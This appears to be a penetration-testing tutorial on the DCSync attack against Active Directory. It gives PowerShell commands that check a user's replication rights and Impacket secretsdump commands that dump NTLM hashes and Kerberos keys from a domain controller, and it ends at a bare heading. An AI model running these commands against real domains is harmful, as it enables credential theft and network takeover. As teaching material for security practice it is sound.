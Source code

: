 DCSync is a technique for stealing the Active Directory password database by using the built-in Directory Replication Service Remote Protocol, which is used by Domain Controllers to replicate domain data. This allows an attacker to mimic a Domain Controller to retrieve user NTLM password hashes.

The crux of the attack is requesting a Domain Controller to replicate passwords via the DS-Replication-Get-Changes-All extended right. This is an extended access control right within AD, which allows for the replication of secret data.

To perform this attack, you must have control over an account that has the rights to perform domain replication (a user with the Replicating Directory Changes and Replicating Directory Changes All permissions set). Domain/Enterprise Admins and default domain administrators have this right by default.

**1.** Use Get-DomainUser to View the users's Group Membership:

```powershell
Get-DomainUser -Identity $userSamAccountName  |select samaccountname,objectsid,memberof,useraccountcontrol |fl
```

**2.** Check if the user has replication rights:

```powershell
# we obtained the sid from previous command
$sid= "S-1-5-21-3842939050-3880317879-2865463114-1164"

Get-ObjectAcl "DC=inlanefreight,DC=local" -ResolveGUIDs | ? { ($_.ObjectAceType -match 'Replication-Get')} | ?{$_.SecurityIdentifier -match $sid} |select AceQualifier, ObjectDN, ActiveDirectoryRights,SecurityIdentifier,ObjectAceType | fl
```

DCSync replication can be performed using tools such as Mimikatz, Invoke-DCSync, and Impacket’s secretsdump.py.


####  Linux:  Impacket’s secretsdump.py

```bash
secretsdump.py -outputfile $filename -just-dc $domain/$userSamAccountName@$ipDomainController
# As an example:
# secretsdump.py -outputfile inlanefreight_hashes -just-dc INLANEFREIGHT/adunn@172.16.5.5 
# -just-dc flag tells the tool to extract NTLM hashes and Kerberos keys from the NTDS file.
# -just-dc flag tells the tool to extract NTLM hashes and Kerberos keys from the NTDS file.
# just-dc-user <USERNAME> to only extract data for a specific user
# -pwd-last-set to see when each account's password was last changed
# -history if we want to dump password history
# -user-status flag to check and see if a user is disabled. 

# This will generate 3 files with dumped secrets
```


#### Reversible Encryption Password Storage Set
